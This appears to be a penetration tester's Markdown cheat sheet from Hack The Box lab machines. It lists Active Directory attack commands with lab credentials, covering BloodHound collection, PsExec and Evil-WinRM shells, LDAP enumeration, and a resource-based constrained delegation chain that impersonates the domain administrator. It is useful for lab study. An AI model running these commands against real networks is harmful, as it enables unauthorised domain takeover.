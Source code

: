 ### Bloodhound python from kali
`bloodhound-python -d active.htb -u SVC_TGS -p 'GPPstillStandingStrong2k18' -gc dc.active.htb -c all -ns 10.10.10.100` 

### Get shell with PSexec 
`impacket-psexec active.htb/administrator@10.10.10.100` 
**password will prompt**

### Get shell with Evil-winrm
`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice` 

### ldapsearch to get object in a directory 
`ldapsearch -x -h 10.10.10.175 -s base namingcontexts`
        -x - simple auth
        -h 10.10.10.175 - host to query
        -s base - set the scope to base
        naming contexts - return naming contexts

`ldapsearch -x -h 10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'` 
`ldapsearch -H ldap://<ip>:<port> -x -LLL -s sub -b "DC=<domain>,DC=local"` 

### Dump AD Users properties Powerview (w/ shell)
`get-aduser -filter * -properties *` 

### Use Powermad.ps1 to add new machine account 
`New-MachineAccount -MachineAccount MYFAKECOMPUTER -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose` 

### Set PrincipalsAllowedToDelegateToAccount property on a host
`Set-ADComputer $host -PrincipalsAllowedToDelegateToAccount MYFAKECOMPUTER$`

### Confirm the PrincipalsAllowedToDelegateToAccount property is changed  
`Get-ADComputer $host -Properties PrincipalsAllowedToDelegateToAccount`

### Search for computers with PrincipalsAllowedToDelegateToAccount set 
`Get-DomainComputer | Where-Object {$_."msDs-AllowedToActOnBehalfofOtherIdentity" -ne $null}` 

### Get kerberos ticket via computer with ability to impersonate via PrincipalsAllowedToDelegateToAccount
`getST.py -spn cifs/dc.support.htb -impersonate administrator support/MYFAKECOMPUTER$` 

### export kerberos ticket in Kali
`export KRB5CCNAME=~/administrator.ccache` 

### use rbcd.py to create delegation to DC$ 
`rbcd.py -delegate-to DC$ -dc-ip 10.10.11.174 -action read support/MYFAKECOMPUTER$:123456` 
